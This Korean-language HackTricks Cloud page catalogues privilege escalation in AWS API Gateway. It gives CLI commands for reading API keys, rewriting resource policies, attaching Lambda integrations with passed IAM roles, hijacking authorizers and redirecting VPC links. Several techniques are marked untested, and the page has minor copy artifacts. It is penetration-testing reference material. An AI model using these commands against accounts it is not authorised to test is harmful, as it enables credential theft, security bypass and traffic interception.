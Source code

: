 # AWS - Apigateway 권한 상승

<details>

<summary><strong>제로에서 영웅까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고**되길 원하거나 **HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를 팔로우**하세요.
* **해킹 요령을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소를 확인하세요.

</details>

## Apigateway

자세한 정보는 확인하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

이 권한으로 구성된 API의 API 키를 생성할 수 있습니다 (지역별).
```bash
aws --region <region> apigateway create-api-key
```
**잠재적 영향:** 이 기술로 권한 상승은 불가능하지만 민감한 정보에 액세스할 수 있습니다.

### `apigateway:GET`

이 권한을 통해 구성된 API의 생성된 API 키를 가져올 수 있습니다 (지역별).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**잠재적 영향:** 이 기술로 권한 상승은 불가능하지만 민감한 정보에 액세스할 수 있습니다.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

이러한 권한을 가지고 있으면 API의 리소스 정책을 수정하여 자신에게 호출 권한을 부여하고 API 게이트웨이가 가질 수 있는 악용 가능한 액세스를 악용할 수 있습니다 (취약한 람다를 호출하는 것과 같은).
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**잠재적인 영향:** 일반적으로 이 기술로 직접 권한 상승(privesc)을 할 수는 없지만 민감한 정보에 접근할 수 있습니다.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment`, 그리고 `iam:PassRole` 권한을 가진 공격자는 **IAM 역할이 연결된 람다 함수를 사용하여 기존 API Gateway REST API에 새 통합을 추가**할 수 있습니다. 공격자는 그런 다음 **람다 함수를 트리거하여 임의의 코드를 실행하고 IAM 역할과 관련된 리소스에 액세스할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 람다 함수의 IAM 역할과 관련된 리소스에 액세스할 수 있습니다.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateAuthorizer` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 인증자를 수정**하여 보안 검사를 우회하거나 API 요청 시 임의의 코드를 실행할 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적인 영향**: 보안 점검 우회, API 리소스에 대한 무단 액세스.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateVpcLink` 권한을 가진 공격자는 **기존 VPC 링크를 수정하여 다른 네트워크 로드 밸런서를 가리키도록 할 수 있으며, 이로 인해 비인가된 또는 악의적인 리소스로의 개인 API 트래픽이 리디렉션될 수 있습니다**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**잠재적 영향**: 비인가된 사용자가 개인 API 리소스에 액세스하거나 API 트래픽을 가로채거나 방해할 수 있음.

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹을 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team 전문가)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 제출하세요.

</details>
